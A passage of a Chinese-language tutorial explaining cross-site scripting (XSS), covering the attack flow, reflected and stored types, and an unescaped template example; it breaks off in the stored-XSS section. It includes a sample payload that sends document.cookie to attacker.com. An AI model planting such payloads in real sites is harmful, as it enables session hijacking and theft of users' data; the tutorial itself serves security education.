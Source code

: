 # 跨应用脚本攻击（Cross-Site Scripting, XSS）的基本概念

## 1. 概述

跨应用脚本攻击（XSS）是一种常见的Web安全漏洞，攻击者通过在目标网站中注入恶意脚本，使得这些脚本在用户的浏览器中执行，从而窃取用户信息、篡改网页内容或进行其他恶意操作。XSS攻击的核心在于利用Web应用程序对用户输入的不充分验证和过滤，导致恶意脚本被注入并执行。

## 2. 基本原理

XSS攻击的基本原理是利用Web应用程序对用户输入的处理不当，将恶意脚本注入到网页中。当其他用户访问该网页时，恶意脚本会在他们的浏览器中执行，从而实现攻击者的目的。

### 2.1 攻击流程

1. **注入恶意脚本**：攻击者通过输入框、URL参数或其他用户可控的输入点，将恶意脚本注入到Web应用程序中。
2. **存储或反射**：恶意脚本被存储到服务器（存储型XSS）或直接反射到用户的浏览器（反射型XSS）。
3. **执行恶意脚本**：当用户访问包含恶意脚本的页面时，脚本在用户的浏览器中执行，可能导致信息泄露、会话劫持等后果。

### 2.2 底层实现机制

XSS攻击的实现机制主要依赖于浏览器对HTML、JavaScript等内容的解析和执行。当Web应用程序未对用户输入进行充分的过滤和转义时，攻击者可以构造特定的输入，使得浏览器将其解析为可执行的脚本。

例如，假设一个Web应用程序的搜索功能将用户输入的搜索关键词直接嵌入到HTML页面中：

```html
<p>您搜索的关键词是：<%= user_input %></p>
```

如果用户输入`<script>alert('XSS')</script>`，则生成的HTML代码为：

```html
<p>您搜索的关键词是：<script>alert('XSS')</script></p>
```

浏览器会将其解析为可执行的JavaScript代码，弹出警告框。

## 3. XSS攻击的类型

XSS攻击主要分为三种类型：存储型XSS、反射型XSS和DOM型XSS。

### 3.1 存储型XSS

存储型XSS（Stored XSS）是指恶意脚本被永久存储在目标服务器上，当其他用户访问包含该脚本的页面时，脚本会被执行。这种类型的XSS通常出现在留言板、评论系统等用户生成内容的地方。

**攻击步骤**：
1. 攻击者将恶意脚本提交到目标网站的数据库中。
2. 其他用户访问包含恶意脚本的页面时，脚本在浏览器中执行。

**示例**：
攻击者在留言板中提交以下内容：

```html
<script>document.location='http://attacker.com/steal?cookie='+document.cookie</script>
```
